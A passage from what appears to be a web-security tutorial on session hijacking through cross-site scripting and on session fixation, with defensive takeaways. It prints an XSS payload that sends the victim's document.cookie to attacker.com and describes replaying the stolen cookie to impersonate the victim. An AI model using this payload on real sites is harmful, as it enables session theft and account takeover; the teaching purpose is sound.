 3. The attacker submits a malicious payload in the search box:
    - When a victim searches for something and their input triggers the malicious script, the browser executes the below script.
```
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

 4. The malicious script sends the victim's `document.cookie` (containing the session ID) to the attacker's server, https://attacker.com/steal.

 5. The attacker uses the stolen session cookie to impersonate the victim by attaching it to their own browser:
    - Use a browser extension (e.g., EditThisCookie) or developer tools to set the stolen cookie.
    - Once the cookie is set, the attacker is authenticated as the victim and can perform actions on their behalf.

 #### Key Takeaways


 - `Sanitizing User Input:` Prevent XSS vulnerabilities by sanitizing and escaping user input.

 - `Setting Secure Flags:` Use `HttpOnly`, `Secure`, and `SameSite` attributes for cookies to reduce exposure to attacks.

 - `Encrypting Communications:` Always use HTTPS to prevent passive sniffing.

 <hr/>

 ### Session Fixation


 `Session Fixation` is a vulnerability where an attacker fixes a session identifier (e.g., a cookie or token) and tricks a victim into logging into an application using that identifier. Once the victim is authenticated, the attacker can hijack the session since they already know the identifier.


 #### Stages of Session Fixation Attack


 1. `Obtain a Valid Session Identifier:`
    - Many applications assign session identifiers to all visitors without requiring authentication.
    - An attacker can also create an account to get a valid session identifier.

2. `Fixate the Session Identifier:`
    - The session identifier assigned before login remains unchanged after login.
    - Vulnerability arises if session identifiers are accepted from URL query strings or POST data.
        - `Example:` If a session ID passed in a URL is accepted and propagated as the session identifier.

3. `Trick the Victim:`
    - The attacker crafts a URL containing the fixed session identifier and lures the victim to visit it.
    - Upon visiting, the victim’s session becomes tied to the attacker’s identifier.

`Impact:` The attacker can hijack the victim’s session and gain unauthorized access to the application.

#### Why HttpOnly won’t prevent session fixation?
